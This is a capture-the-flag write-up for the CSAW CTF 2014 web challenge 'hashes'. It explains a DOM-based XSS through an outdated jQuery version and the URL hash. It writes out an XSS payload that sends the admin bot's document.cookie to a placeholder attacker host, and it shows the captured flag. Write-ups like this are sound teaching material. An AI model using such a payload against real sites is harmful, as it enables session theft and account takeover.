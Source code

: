 # CSAW CTF 2014: hashes

**Category:** Web
**Points:** 300
**Description:**

> location, location, location
>
> Chal is very very stable. If you were scanning the site while I was doing dev work your requests are probably being dropped.
>
> <http://54.86.199.163:7878/>
>
> Written by ColdHeat

## Write-up

The linked page uses an old version of the jQuery library (v1.6.1), [which enables an XSS vulnerability when e.g. `$('#' + userContent)` is called](http://bugs.jquery.com/ticket/9521) ([CVE-2011-4969](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2011-4969)). The page also contains this script:

```js
$(window).bind( 'hashchange', function(e) {
  $('.image').hide()
  tag = window.location.hash
  $(tag).show()
});
tag = window.location.hash
$(tag).show()
```

This makes it possible to inject arbitrary JavaScript simply by changing the hash in the URL. For example, [`#<img src=/ onerror=alert(1)>`](http://54.86.199.163:7878/) displays an alert box.

The page also features a form that can be used to submit image URLs that will then be visited by a bot. Assuming the bot has special admin privileges on this website, and possibly an interesting cookie, let’s try submitting this URL:

```
http://54.86.199.163:7878/#<img src=/ onerror=location='https://your-site.example.com/log?c='+document.cookie>
```

This redirects the bot to a page under our control, passing along the cookie value. The `log` script is a simple server-side script written in your language of choice that simply writes the `c` URL parameter value to a file, or stores it in a database.

A few moments after submitting the above URL, the bot indeed visits our page, and the logger script logs the cookie:

```
win="flag{these_browser_bots_are_annoying}"
```

The flag is `these_browser_bots_are_annoying`.

## Other write-ups and resources

* <http://zoczus.blogspot.com/2014/09/csaw-ctf-web300-writeup.html>
* <http://tasteless.se/2014/09/csaw-2014-quals-hashes-web300/>
